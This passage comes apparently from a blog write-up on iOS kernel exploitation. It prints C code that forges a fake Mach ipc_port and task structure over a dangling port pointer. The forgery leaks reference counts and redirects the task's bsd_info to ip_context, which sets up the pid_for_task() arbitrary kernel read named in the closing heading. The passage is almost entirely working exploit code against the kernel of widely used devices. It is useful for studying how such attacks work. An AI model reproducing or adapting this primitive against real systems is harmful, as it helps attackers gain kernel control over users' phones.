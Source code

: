 {% highlight c %}
    uint8_t* build_message_payload(uint64_t dangling_port_address, uint32_t message_body_size, uint32_t message_body_offset, uint64_t vm_map, uint64_t receiver, uint64_t** context_ptr) {
      uint8_t* body = malloc(message_body_size);
      memset(body, 0, message_body_size);

      uint32_t port_page_offset = dangling_port_address & 0xfff;

      // structure required for the first fake port:
      uint8_t* fake_port = body + (port_page_offset - message_body_offset);

      *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IO_BITS)) = IO_BITS_ACTIVE | IKOT_TASK;
      *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IO_REFERENCES)) = 0xf00d; // leak references
      *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_SRIGHTS)) = 0xf00d; // leak srights
      *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_RECEIVER)) = receiver;
      *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT)) = 0x123456789abcdef;

      *context_ptr = (uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT));

      // set the kobject pointer such that task->bsd_info reads from ip_context:
      int fake_task_offset = koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT) - koffset(KSTRUCT_OFFSET_TASK_BSD_INFO);

      uint64_t fake_task_address = dangling_port_address + fake_task_offset;
      *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT)) = fake_task_address;

      // when we looked for a port to make dangling we made sure it was correctly positioned on the page such that when we set the fake task
      // pointer up there it's actually all in the buffer so we can also set the reference count to leak it, let's double check that!

      if (fake_port + fake_task_offset < body) {
        printf("the maths is wrong somewhere, fake task doesn't fit in message\n");
        sleep(10);
        exit(EXIT_FAILURE);
      }

      uint8_t* fake_task = fake_port + fake_task_offset;

      // set the ref_count field of the fake task:
      *(uint32_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_REF_COUNT)) = 0xd00d; // leak references

      // make sure the task is active
      *(uint32_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_ACTIVE)) = 1;

      // set the vm_map of the fake task:
      *(uint64_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_VM_MAP)) = vm_map;

      // set the task lock type of the fake task's lock:
      *(uint8_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_LCK_MTX_TYPE)) = 0x22;
      return body;
    }
{% endhighlight %}
For more details, i highly recommend checking out the this talk from CanSecWest [here](https://www.slideshare.net/i0n1c/cansecwest-2017-portal-to-the-ios-core).

## pid_for_task() arbitrary read technique
